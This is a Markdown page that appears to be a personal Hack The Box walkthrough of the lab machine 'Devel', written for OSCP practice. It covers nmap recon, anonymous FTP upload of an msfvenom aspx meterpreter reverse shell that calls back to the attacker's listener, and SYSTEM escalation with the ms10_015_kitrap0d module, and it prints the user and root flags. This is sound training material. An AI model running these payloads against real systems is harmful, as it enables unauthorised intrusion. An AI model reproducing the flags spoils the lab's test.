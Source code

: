 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Devel
tags: []
---
```

**Start 12:11 14-08**

---
```
10.10.10.5
```
## Recon

==Nmap==
```bash
┌──(kali㉿kali)-[~]
└─$ nmap 10.10.10.5                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:12 IST
Nmap scan report for 10.10.10.5
Host is up (0.028s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 6.19 seconds
```

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sT -sV -p1-1000 -T5 10.10.10.5
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-14 11:12 IST
Nmap scan report for 10.10.10.5
Host is up (0.013s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 08-13-24  05:53PM                 1442 cmd.aspx
| 08-13-24  05:42PM                   14 iisstart.htm
| 08-11-24  09:27PM                38171 shell.asp
| 08-11-24  09:30PM                  358 shell2.asp
| 08-11-24  09:32PM                 2899 shell3.aspx
| 08-14-24  11:32AM                 2954 update.aspx
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.90 seconds
```

We see that `port 21 FTP` is running and that `anonymous login is allowed`.

## 21/TCP - FTP

We simply login as `anonymous` without a `password`:

```bash
┌──(kali㉿kali)-[~]
└─$ ftp 10.10.10.5                                                                                                                                   
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> 
```

Now that we're in we can start to exploit it. We can try to upload an `aspx reverse shell` onto the target and get access to the webserver.

==metasploit==
Use the following command to make the reverse shell:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.24 LPORT=4444 -f aspx > devel.aspx
```

After the shell is created we can go ahead and start the listener using `metasploit`:

```bash
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.24
LHOST => 10.10.14.24
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > set ExitOnSession false
ExitOnSession => false
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.24:4444 
```

Now we need to upload the `devel.aspx` file onto the `ftp server`:

```bash
ftp> put ./devel.aspx 
local: ./devel.aspx remote: ./devel.aspx
229 Entering Extended Passive Mode (|||49196|)
125 Data connection already open; Transfer starting.
100% |*****************************************************************************************************************|  2922       44.94 MiB/s    --:-- ETA
226 Transfer complete.
2922 bytes sent in 00:00 (195.29 KiB/s)
ftp> 
```

The file should be loaded after browsing to `http://10.10.10.5/devel.aspx` and that will trigger the reverse shell.

![](../../../assets/5b49a217fcc8d1f45a3cbf95d4e403d0.png)

Now we get the reverse shell in `metasploit`:

```bash
msf6 exploit(multi/handler) > 
[*] Started reverse TCP handler on 10.10.14.24:4444 
[*] Sending stage (176198 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.24:4444 -> 10.10.10.5:49198) at 2024-08-14 11:28:26 +0100

msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 1052 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>
```

From here we want to switch on over to the `Temp` directory, where we have write and execute permissions, since most of `metasploits` exploits require a file to be written to the target machine.

==Privilege Escalation==
we run `systeminfo` to gather information about our environment:

```powershell
c:\Windows\Temp>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          11/8/2024, 6:53:11 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.409 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.473 MB
Virtual Memory: In Use:    668 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::bc0e:4ac1:5a6f:b9a9
                                 [03]: dead:beef::b943:42ef:23d9:b021
                                 [04]: dead:beef::bc0e:4ac1:5a6f:b9a9

c:\Windows\Temp>
```

We notice that it's running on a `Windows 7 Enterprise version 6.1`

We can now `ctrl + c` the shell and `background the session` in order to use the `local_exploit_suggester` module from metasploit.

![](../../../assets/b72312c4b8480a8f8063477e56050c05.png)

This gives us some exploits which can be used on our target:

![](../../../assets/37d8b777d10b8d8aeedee21970121c0d.png)

From these the 3rd option, or `exploit/windows/local/ms10_015_kitrap0d`, seems the most useful for our case. After looking it up it seems like it's a `SYSTEM Escalation` script:

![](../../../assets/9030d8e35c2898a9989aabd407e8992a.png)

Let's use this one and set up all the necessary options for it.

![](../../../assets/28961ee2feccbdf8d878ed265904d007.png)

Start up the session again using `sessions -i ID` and:

```bash
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

We are `root`.

## Flags

==user.txt==
From the `babis` user we can now get the user flag.

```powershell
c:\Users\babis>cd Desktop
cd Desktop

c:\Users\babis\Desktop>type user.txt    
type user.txt
5fba27b1f6bd2ac0dc597cf4980b5aee

c:\Users\babis\Desktop>
```

==root.txt==
Go to `Administrator\Desktop`:

```powershell
c:\Users>cd Administrator\Desktop
cd Administrator\Desktop

c:\Users\Administrator\Desktop>type root.txt
type root.txt
5417dd5721ab67ac82febd990d7d4785

c:\Users\Administrator\Desktop>
```


![](../../../assets/20c0c51ecbfd241e44027b7eaaf6d8b4.png)



---

**Finished 12:49 14-08**

[^Links]: [[Hack The Box]] [[OSCP Prep]]
